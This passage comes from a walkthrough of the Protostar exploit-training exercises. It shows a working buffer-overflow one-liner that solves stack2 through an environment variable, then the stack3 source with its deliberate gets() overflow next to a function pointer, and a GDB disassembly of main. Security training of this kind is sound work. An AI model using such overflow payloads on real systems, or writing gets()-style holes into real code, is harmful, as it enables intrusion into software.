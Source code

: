 ```shell
user@protostar:~$ GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` /opt/protostar/bin/stack2
you have correctly modified the variable
```

# stack 3

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Our goal here is to execute the `win()` function.

We open up the `stack3` binary in GDB.

```
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   %ebp
0x08048439 <main+1>:    mov    %esp,%ebp
0x0804843b <main+3>:    and    $0xfffffff0,%esp
0x0804843e <main+6>:    sub    $0x60,%esp
0x08048441 <main+9>:    movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:   lea    0x1c(%esp),%eax
0x0804844d <main+21>:   mov    %eax,(%esp)
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    $0x8048560,%eax
0x08048461 <main+41>:   mov    0x5c(%esp),%edx
0x08048465 <main+45>:   mov    %edx,0x4(%esp)
0x08048469 <main+49>:   mov    %eax,(%esp)
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
End of assembler dump.
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/